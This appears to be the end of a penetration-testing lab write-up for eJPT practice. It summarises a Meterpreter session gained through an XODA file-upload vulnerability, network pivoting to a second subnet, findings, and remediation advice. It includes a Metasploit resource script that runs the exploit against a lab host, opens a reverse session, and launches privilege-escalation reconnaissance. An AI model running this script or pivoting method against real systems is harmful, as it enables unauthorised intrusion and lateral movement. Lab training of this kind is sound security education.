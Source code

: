 ```markdown
- **Session ID:** 1
- **Session Type:** Meterpreter
- **Target OS:** Linux
- **Privileges:** www-data
- **Network Access:** 192.63.4.3 (eth0), 192.180.108.2 (eth1)

### Network Pivoting Results
- **Added Routes:** 192.180.108.0/24 via 192.63.4.3
- **Discovered Systems:** 192.180.108.3 (FTP, SSH, HTTP services)
- **Additional Access:** Port scanning through compromised system

### Key Findings
- Successfully exploited XODA file upload vulnerability
- Established persistent meterpreter session with dual network access
- Identified additional target systems through network pivoting
- Confirmed file upload and execution capabilities on target system

### Recommendations
- Patch XODA application to latest version
- Implement file upload restrictions and validation
- Segment internal networks to prevent lateral movement
- Monitor for unusual network traffic patterns
```

### Automation Scripts:
```bash
# MSFConsole resource script for automated exploitation
# save as: auto_exploit.rc
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.63.4.2
exploit -j

# Session management automation
sessions -l
sessions -i 1
run post/multi/recon/local_exploit_suggester
```

## 📚 Additional Resources

### Official Documentation:
- Official Metasploit website: https://www.metasploit.com
- Framework documentation: https://docs.metasploit.com
- GitHub repository: https://github.com/rapid7/metasploit-framework

### Learning Resources:
- Metasploit Unleashed course: https://www.offensive-security.com/metasploit-unleashed/
- Rapid7 blog and tutorials: https://blog.rapid7.com
- eJPT preparation labs: Practice XODA exploitation scenarios
